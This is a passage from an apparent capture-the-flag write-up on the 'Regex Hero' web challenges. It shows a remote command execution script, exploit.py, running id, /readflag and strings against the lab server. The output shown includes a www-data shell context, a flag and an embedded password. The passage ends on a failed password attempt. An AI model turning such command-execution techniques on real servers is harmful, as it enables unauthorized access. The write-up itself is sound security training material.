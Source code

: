 Now lets test it out.

```bash
$ python exploit.py id
Command Output: 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The `flag.txt` is at the root directory, but we do not have permissions to read it. We will need to execute `readflag` which is also in the root directory.

```bash
$ python exploit.py /readflag
Command Output: 
FLAG{7h15_15_7HE_Fl49}
```

<br>

## Regex Hero 2 (494 pts)

```
The flag seems to be somewhere deeper...
But I cant find it either.
Can you help me?
http://www.websec.pw:9091/
```

The source code of the `index.php` was exactly the same, so all I had to do was change all the URLs to the new one. However, `readflag` is now protected with a password.

```bash
$ python exploit.py /readflag
Command Output: 
Wrong Password!
```

Lets run `strings` to see if we can find the password.

```bash
$ python exploit.py "strings /readflag"
Command Output:
...
P4S5W0RD
Password requried!
Wrong Password!
/flag.txt
...
```

It seems the password might be `P4S5W0RD`? At this point I couldn't use the character "P" because initially I was only using `/etc/motd` to get characters, which happens to not include that letter. Hence, I had to modify my payload to store the contents of `index.php` into a variable and add a special check  for the character "P".

```bash
$ python exploit.py "/readflag P4S5W0RD"
Command Output: 
Wrong Password!
```
